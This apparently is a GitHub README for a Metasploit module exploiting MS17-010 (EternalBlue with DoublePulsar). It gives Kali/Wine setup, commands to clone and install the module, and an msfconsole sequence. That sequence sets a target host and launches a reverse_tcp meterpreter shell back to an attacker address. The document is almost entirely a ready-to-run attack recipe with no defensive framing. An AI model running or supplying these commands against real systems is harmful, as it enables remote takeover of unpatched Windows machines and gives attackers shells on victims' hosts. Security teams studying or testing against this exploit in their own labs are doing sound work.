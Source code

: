 # ms17_010_eternalblue_doublepulsar

### For Kali x64

```sh
dpkg --add-architecture i386 && apt-get update && apt-get install wine32
rm -r ~/.wine && wine cmd.exe
exit
```

### For Kali x86

```sh
rm -r ~/.wine && wine cmd.exe
exit
```

### Download & Install

```sh
cd tmp && git clone https://github.com/hhktony/ms17_010_eternalblue_doublepulsar.git
cp ms17_010_eternalblue_doublepulsar/ms17_010_eternalblue_doublepulsar.rb /usr/share/metasploit-framework/modules/exploits/windows/smb/
mkdir -p /usr/share/metasploit-framework/modules/exploits/smb
cp -r ms17_010_eternalblue_doublepulsar/deps /usr/share/metasploit-framework/modules/exploits/smb
rm -rf ms17_010_eternalblue_doublepulsar
```

### Exploit

```sh
msfconsole

reload_all
use exploit/windows/smb/ms17_010_eternalblue_doublepulsar
# show options
set RHOST 10.0.0.100
set TARGETARCHITECTURE x64
# show targets
# set TARGET 9
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.11
exploit
```
## Credit to hkktony (~_^)
